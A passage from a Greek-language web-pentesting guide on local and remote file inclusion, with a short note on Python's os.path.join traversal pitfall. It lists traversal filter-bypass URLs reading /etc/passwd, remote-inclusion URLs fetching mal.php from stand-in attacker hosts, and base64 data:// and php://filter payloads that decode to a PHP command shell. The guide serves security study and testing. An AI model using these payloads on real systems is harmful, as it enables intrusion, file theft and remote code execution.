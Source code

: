 **Αυτή η ευπάθεια διορθώθηκε στο PHP 5.3.**

### **Τεχνικές παράκαμψης φίλτρων**
```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
Maintain the initial path: http://example.com/index.php?page=/var/www/../../etc/passwd
http://example.com/index.php?page=PhP://filter
```
## Remote File Inclusion

Στο php αυτό είναι απενεργοποιημένο από προεπιλογή γιατί **`allow_url_include`** είναι **Απενεργοποιημένο.** Πρέπει να είναι **Ενεργοποιημένο** για να λειτουργήσει, και σε αυτή την περίπτωση θα μπορούσατε να συμπεριλάβετε ένα αρχείο PHP από τον διακομιστή σας και να αποκτήσετε RCE:
```python
http://example.com/index.php?page=http://atacker.com/mal.php
http://example.com/index.php?page=\\attacker.com\shared\mal.php
```
Αν για κάποιο λόγο **`allow_url_include`** είναι **On**, αλλά το PHP **φιλτράρει** την πρόσβαση σε εξωτερικές ιστοσελίδες, [σύμφωνα με αυτή την ανάρτηση](https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64/), θα μπορούσατε να χρησιμοποιήσετε για παράδειγμα το πρωτόκολλο δεδομένων με base64 για να αποκωδικοποιήσετε έναν κωδικό PHP b64 και να αποκτήσετε RCE:
```
PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.txt
```
> [!TIP]
> Στον προηγούμενο κώδικα, το τελικό `+.txt` προστέθηκε επειδή ο επιτιθέμενος χρειαζόταν μια συμβολοσειρά που να τελειώνει σε `.txt`, έτσι ώστε η συμβολοσειρά να τελειώνει με αυτό και μετά την αποκωδικοποίηση b64, αυτό το μέρος θα επιστρέψει απλώς σκουπίδια και ο πραγματικός κώδικας PHP θα συμπεριληφθεί (και επομένως, θα εκτελεστεί).

Ένα άλλο παράδειγμα **χωρίς τη χρήση του πρωτοκόλλου `php://`** θα ήταν:
```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt
```
## Python Root element

Στην python σε έναν κώδικα όπως αυτός:
```python
# file_name is controlled by a user
os.path.join(os.getcwd(), "public", file_name)
```
Αν ο χρήστης περάσει μια **απόλυτη διαδρομή** στο **`file_name`**, η **προηγούμενη διαδρομή απλώς αφαιρείται**:
```python
os.path.join(os.getcwd(), "public", "/etc/passwd")
'/etc/passwd'
```
Είναι η προορισμένη συμπεριφορά σύμφωνα με [the docs](https://docs.python.org/3.10/library/os.path.html#os.path.join):
